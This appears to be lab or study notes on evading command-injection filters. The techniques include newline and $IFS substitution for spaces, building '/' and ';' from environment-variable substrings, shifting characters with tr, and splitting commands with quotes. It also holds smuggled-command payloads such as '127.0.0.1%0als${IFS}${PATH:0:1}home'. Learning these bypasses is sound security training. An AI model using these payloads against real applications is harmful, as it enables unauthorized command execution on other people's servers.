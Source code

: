 To critically understand what a firewall is blocking, we have to break our input into "parts"

For example
```127.0.0.1; whoami``` gets filtered, but ```127.0.0.1``` does not. Therefore, the filter must be triggered on the following: ```; whoami```, triggering on either a semicolon, space, or the command.

We can try entering each of these one at a time, for example, let us try inputting

```127.0.0.1;```

Which gets filtered.

# Bypassing Space Filters

Spaces are commonly blacklisted, since they are a risky character. We can try using some of the following characters:
```
tab (%09)
Linux Enviroment Variable $IFS
Bash Brace Expansion ( {ls,-la} )
```

We had to use
```
127.0.0.1%0A{ls,-la}
``` 
to complete this section. Note that %OA is a newline, but URL encoded.

# Bypassing Other Blacklisted Characters

Slashes and backslashes may be commonly backlisted.

We can avoid this by grabbing a substring {0:1} of $PATH, since every PATH begins with a slash, like so. We can also use this for other characters like a semicolon.
```
LINUX
echo ${PATH:0:1} == /
echo ${LS_COLORS:10:1} == ;

WINDOWS
echo %HOMEPATH:~6,-11% == /
```

We can also character shift to produce characters, often taking the ASCII number before the charactrer we want, and adding 1.
```
echo $(tr '!-}' '"-~'<<<[) == \
```
This will take the [, add 1 to it, and evaluate to the ASCII code of \

This one was tricky.

```
127.0.0.1%0als${IFS}${PATH:0:1}home
```
Is the expected solution. Let's break it down
```
127.0.0.1%0a == end the expected input, begin our command injection
s${IFS} == evaluate to ls and a space (ls )
${PATH:0:1}home == evaluates to /home, bypassing the filter
```

# Bypassing Blacklisted Commands

Sometimes, words/commands will just be straight up blacklisted.
The easiest bypass is quotes, single or double.
```
w"ho"am"i" 